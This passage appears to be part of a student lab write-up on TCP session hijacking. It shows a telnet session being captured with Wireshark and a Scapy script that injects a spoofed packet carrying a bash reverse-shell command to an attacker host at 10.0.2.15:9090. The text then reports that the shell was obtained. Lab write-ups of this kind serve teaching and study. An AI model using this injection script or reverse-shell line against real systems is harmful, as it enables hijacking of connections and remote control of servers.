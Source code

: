 We first built the telnet connection as the following and we also used the command `netstat -tna | grep 10.0.2.6` to verify the connection. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_51bab920ad71225615ac577a81de5923.png"/>
<figcaption> Figure 5.1 Establishing the Telnet from Client to Server </figcaption><br>
</figure>

On the attack machine, we ran the wireshark that captured the last package between the victim and the server.

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_dcd07ce76b527ce17359e64c5e4e8aac.png"/>
<figcaption> Figure 5.2 Running Wireshark to check the Seq and Ack number </figcaption><br>
</figure>

We then prepared the scapy file with the ip, port numbers given, which were 10.0.2.6:44528 (client) and 10.0.2.7:23 (Server). Also, we could use the above Seq number and Ack number. Finally, we set the flag as Ack and set the data with our reverse Shell code command like the following.

```Python
#!/usr/bin/python
from scapy.all import *

ip = IP(src="10.0.2.6", dst="10.0.2.7")
tcp = TCP(
    sport=44528, dport=23, flags="A",
    seq=3684699739, ack=520936048
)
data = "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
```

We then run the scapy file after we start listening the 9090 port. We can see that we get the Shell and we can run a simple command `hostname -I` to show that we have hijacked the telnet connection from the victim to the server since the ip becomes 10.0.2.7, which is the server now.


<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_6cdb0f649b4bd92d9715e65a024e279a.png"/>
<figcaption> Figure 5.4 Running the attack </figcaption><br>
</figure>

